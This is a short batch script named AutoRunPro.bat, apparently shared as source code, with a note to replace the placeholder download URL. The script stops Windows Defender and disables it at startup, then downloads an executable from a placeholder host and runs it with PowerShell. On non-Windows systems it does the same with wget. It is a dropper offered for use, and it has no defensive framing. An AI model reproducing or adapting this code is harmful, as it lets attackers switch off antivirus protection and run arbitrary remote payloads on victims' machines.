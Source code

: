 AutoRunPro.bat
```
@echo off

REM Check if the script is running on Windows
if "%OS%"=="Windows_NT" (
    REM Disable Windows Defender
    sc stop "WinDefend"
    sc config "WinDefend" start=disabled
    
    REM Download and execute the application
    powershell -Command "& { Invoke-WebRequest -Uri 'https://example.com/application.exe' -OutFile 'application.exe'; Start-Process 'application.exe' }"
) else (
    REM Download and execute the application
    wget -O application https://example.com/application
    chmod +x application
    ./application
)
```
Note: Be sure to replace the "https://example.com/application" URL in the script with the actual URL of the application you want to download and execute
